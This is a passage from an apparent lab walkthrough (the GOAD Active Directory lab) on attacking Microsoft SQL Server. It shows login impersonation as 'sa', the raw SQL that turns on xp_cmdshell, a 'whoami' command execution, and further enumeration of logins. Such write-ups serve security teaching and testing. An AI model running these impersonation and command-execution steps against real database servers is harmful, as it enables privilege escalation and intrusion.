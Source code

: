 ```
exec_as_login sa
enable_xp_cmdshell
xp_cmdshell whoami
```

- This launch the following commands:

```sql
execute as login='sa';
exec master.dbo.sp_configure 'show advanced options',1;RECONFIGURE;exec master.dbo.sp_configure 'xp_cmdshell', 1;RECONFIGURE;
exec master..xp_cmdshell 'whoami'
```

- And we get a command execution !

![mssql_impersonate_exec_samwell.png](/assets/blog/GOAD/mssql_impersonate_exec_samwell.png)

- Let's continue our enumeration as login **sa** this time:

```
enum_logins
```

![mssql_enum_login_sa.png](/assets/blog/GOAD/mssql_enum_login_sa.png)

- As we can see with sa login we see a lot more things. And we can see that jon.snow is sysadmin on the mssql server

- Let's see if there is others impersonation privileges:
